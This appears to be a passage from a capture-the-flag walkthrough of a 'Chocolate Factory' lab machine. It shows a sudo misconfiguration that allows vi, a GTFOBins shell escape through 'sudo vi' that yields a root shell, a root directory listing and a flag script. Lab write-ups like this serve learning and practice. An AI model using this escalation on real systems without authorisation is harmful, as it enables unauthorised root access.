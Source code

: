      charlie@chocolate-factory:/home/charlie$ sudo -l
    Matching Defaults entries for charlie on chocolate-factory:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User charlie may run the following commands on chocolate-factory:
        (ALL : !root) NOPASSWD: /usr/bin/vi

Checking GTFOBins, we get a command that will give is a reverse shell.

--------------

## Root Shell
charlie@chocolate-factory:/$ sudo vi -c ':!/bin/sh' /dev/null

    # whoami
    root
    # cd /root
    # ls -al
    total 52
    drwx------  6 root    root     4096 May 11 18:39 .
    drwxr-xr-x 24 root    root     4096 Sep  1  2020 ..
    -rw-------  1 root    root        0 Oct  7  2020 .bash_history
    -rw-r--r--  1 root    root     3106 Apr  9  2018 .bashrc
    drwx------  3 root    root     4096 Oct  1  2020 .cache
    drwx------  3 root    root     4096 Sep 30  2020 .gnupg
    drwxr-xr-x  3 root    root     4096 Sep 29  2020 .local
    -rw-r--r--  1 root    root      148 Aug 17  2015 .profile
    -rwxr-xr-x  1 charlie charley   491 Oct  1  2020 root.py
    -rw-------  1 root    root    12288 May 11 18:39 .root.txt.swp
    -rw-r--r--  1 root    root       66 Sep 30  2020 .selected_editor
    drwx------  2 root    root     4096 Sep  1  2020 .ssh

Running that root.py, we need to supply the earlier key and then we are rewarded with the root flag. 

    # python root.py
    Enter the key:  b'-VkgX[Redacted]GSQzY='
    __   __               _               _   _                 _____ _          
    \ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
     \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
      | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
      |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                                                                 
      ___                              ___   __  
     / _ \__      ___ __   ___ _ __   / _ \ / _| 
    | | | \ \ /\ / / '_ \ / _ \ '__| | | | | |_  
    | |_| |\ V  V /| | | |  __/ |    | |_| |  _| 
     \___/  \_/\_/ |_| |_|\___|_|     \___/|_|   
                                                 